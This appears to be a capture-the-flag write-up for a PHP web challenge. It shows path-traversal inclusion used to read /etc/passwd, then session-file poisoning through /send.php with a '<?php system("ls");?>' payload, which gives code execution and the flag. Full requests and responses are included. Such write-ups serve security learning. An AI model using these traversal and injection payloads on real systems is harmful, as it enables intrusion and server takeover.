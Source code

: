 
## Local file inclusion

We have a few tabs in main page. Two of the reachable pages set the value of the `f` parameter to a php file.  
Replacing the php file with a non existing file (e.g. `ciao.php`) triggers an error, revealing the function used by the web server: `include("files/ciao.php"):`

Input is not sanitized nor escaped, we have local file inclusion (LFI).
The following command reveals the content of the password files
```
curl http://'138.68.141.182:31970/?f=../../../../etc/passwd'
```

But we are not done yet!  
The flag doesn't seem to be around.  
It is probably stored in a file called `flag$RANDOM_STUFF_HERE` 

Next steps:
- RFI? Not working because our input is preceded by `files`.
- LFI to read files that may contain information about the flag file (e.g. bash_history, access logs etc... ). We tried but no luck here.
- Maybe just a rabbit hole? We also play around with the website, exploring the `/send.php` page and trying a bunch of hopeless SQL queries (e.g `' or 1=1'`). Not very promising though.
- Upgrade our LFI to a remote code execution (RCE) by finding places where we can inject malicious code/files. In this way we have RCE by including that file.  
Let's dive into it!


## Upgrading from LFI to RCE 

### Detecting the possible upgrade
A blog post comes in our help: https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/  

We actually have the session cookies set. Why should we even have session cookies here? It does seem a bit strange.
```
Cookie: PHPSESSID=dde5c335a8381e3504a3b704d36c6786
```

Let's see if we can find and access the php session files as showed in the blog post above. We expect the filename to be `sess_dde5c335a8381e3504a3b704d36c6786`.  
The responses of the server expose the PHP version in use, `7.4`.  
We try a bunch of possible paths (`../../../../../../var/lib/php7/sess_dde5c335a8381e3504a3b704d36c6786` and variants).  
Eventually we end up finding the file in the `/tmp/` directory.

We can thus print the content of our session file by setting the `f` parameter to
```
../../../../../../../tmp/sess_dde5c335a8381e3504a3b704d36c6786 
```
Content of the response: `' or 1=1'`

The response confirms that something strange is happening.  
But what? Where did I see that `' or 1=1'` before?  

It was the value that I've previously tried in the `/send.php` page.  
This means the code we inject in the `/send.php` page will be stored in the session file. We can then execute that code by including the session file as we did before.


### Remote Code Execution
We first inject our malicious php code in `/send.php`.
**Request:** (full Burp request)
```
POST /send.php HTTP/1.1
Host: 178.62.10.52:32013
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://178.62.10.52:32013
Connection: close
Referer: http://178.62.10.52:32013/send.php
Cookie: PHPSESSID=dde5c335a8381e3504a3b704d36c6786
Upgrade-Insecure-Requests: 1

name=<?php system("ls");?>
```
**Response:**
```
flag_ffacf623917dc0e2f83e9041644b3e98.txt
index.php
send.php
```

Now we know the name of the flag file.  
We can just get the flag.

**Request:**
```
GET /?f=../flag_ffacf623917dc0e2f83e9041644b3e98.txt HTTP/1.1
Host: 178.62.10.52:32013
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=dde5c335a8381e3504a3b704d36c6786
Upgrade-Insecure-Requests: 1
```
**Response:**
`CHTB{th4ts_4_w31rd3xt0rt10n@#$?}`